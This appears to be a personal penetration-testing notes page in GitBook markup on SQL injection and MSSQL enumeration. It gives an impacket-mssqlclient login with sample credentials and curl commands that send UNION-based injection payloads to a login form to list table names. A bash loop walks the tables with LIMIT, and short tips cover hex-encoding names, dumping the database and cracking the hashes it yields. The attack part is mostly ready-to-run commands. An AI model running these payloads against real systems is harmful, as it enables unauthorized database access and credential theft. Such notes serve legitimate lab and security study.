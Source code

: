 ```sql
#  ends with a semicolon followed by GO on aseparate line. However, when running the command remotely, GO can be omitted.
sqlcmd> SELECT @@version; GO
impacket-mssqlclient Administrator:Password123@$IP -windows-auth
SELECT @@version;
SELECT name FROM sys.databases; # master, tempdb, model, and msdb are default databases

# Show info on table format (pretty):
select * from users \G
```
{% endcode %}

## Steps

{% hint style="info" %}
* UNION ALL gives duplicate results so might be interesting to remove "ALL" word if possible
* **concat**, **group\_concat** or if they do not work, extract info field by field (first user then pass)
* If there are a lot of tables > **LIMIT** 0,1 > Make a Bash script (one-liner) w/ curl to iterate LIMIT X,1 so we get all tables separatedly

{% code overflow="wrap" %}
```sh
└─$ curl -s -X POST http://IP/login --data "email=test@test.com' union select 1,2,3,group_concat(table_name) from information_schema.tables where table_schema=\"main\" -- -&password=asdlfj"

for i in $(seq 0 100); do echo -n "Table $i "  && curl -s -X POST http://$IP/login --data "email=test@test.com' union select 1,2,3,table_name from information_schema.tables LIMIT $i,1 -- -&password=asdlfj"
```
{% endcode %}
{% endhint %}

{% code overflow="wrap" fullWidth="true" %}
```bash
# CONSIDER ALL DB TYPES SUCH AS SQLITE), dbms=sqlite---------------------------------

# SMALL THINGS YOU WANT TO RETRIEVE:
https://portswigger.net/web-security/sql-injection/cheat-sheet
database() user() @@version @@datadir 
             
echo "table" | xxd -ps # IF TABLE_NAME IS NOT ACCEPTED --> TRY IN HEX  
# then remove "0a" at the end (is a point that is added by default)

# ISSUES WITH TOO MUCH DATA
LIMIT 1,1

# DUMP THE DATABASE
curl -s URL | html2text # html2text because curl gets HTML

# HASHES.COM (CRACKING WEBSITE LIKE CRACKSTATION)
```
{% endcode %}
